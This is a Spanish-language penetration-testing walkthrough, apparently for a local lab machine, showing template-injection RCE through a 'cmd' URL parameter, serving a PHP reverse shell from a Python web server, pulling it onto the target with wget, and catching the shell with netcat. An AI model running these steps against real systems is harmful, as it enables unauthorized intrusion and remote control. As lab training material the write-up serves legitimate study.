 ![[Pasted image 20240407184806.png]]

Ahora hay que indicarle que al ejecutar la URL (home) este ejecute RCE con el siguiente comando.

	
	{{this.page.myVar}}

![[Pasted image 20240407184919.png]]

> [!FAILURE] Comando integrados
> Tener en cuenta que acá, influye bastante las reglas de espacios a la hora de escribir en ciertos lenguajes. En los ejemplo anteriores podemos ver que no se ocupan casi espacios, pues eso evito que se ejecutara correctamente el RCE, así que dejad espacios.
> 
> Como nota adicional, puedes apoyarte de siguiente GitHub para las [RCE](https://github.com/Alexisdevpro/Reverse-Shell-Cheat-Sheet)

Ejecutamos la vista previa.

![[Pasted image 20240407184948.png]]

Obtenemos un mensaje de error. Pero no importa, ya que nuestro objetivo no es crear una web, asi que nos dirigimos a la URL y colocamos.

	10.0.2.8/?cmd=[command]

![[Pasted image 20240407235904.png]]

Ahora, para poder acceder a todos esos archivos, vamos a necesitar crear una Reverse Shell(que ya tenemos creada).

![[Pasted image 20240408002720.png]]

> [!TIP] Uso de Reverse Shell
> Nuestra mision principal ahora es subir ese codigo, y para ello levantaremos un servidor en python, pero como preferencia es recomendable hacerlo todo y tener todos los archivos en el escrito **Vacio**.

Ahora levantamos un servidor con Python.

	sudo python3 -m http.server 80

![[Pasted image 20240408002943.png]]

Ahora debemos extraer el archivo que necesitamos desde la web usando el siguiente comando.

	wget%2010.0.2.6/shell.php

![[Pasted image 20240408003559.png]]

Verificamos.

![[Pasted image 20240408003731.png]]

Y listo!!! Ahora solo nos queda levantar el [[Recursos#nc|Netcap]]

![[Pasted image 20240408003934.png]]
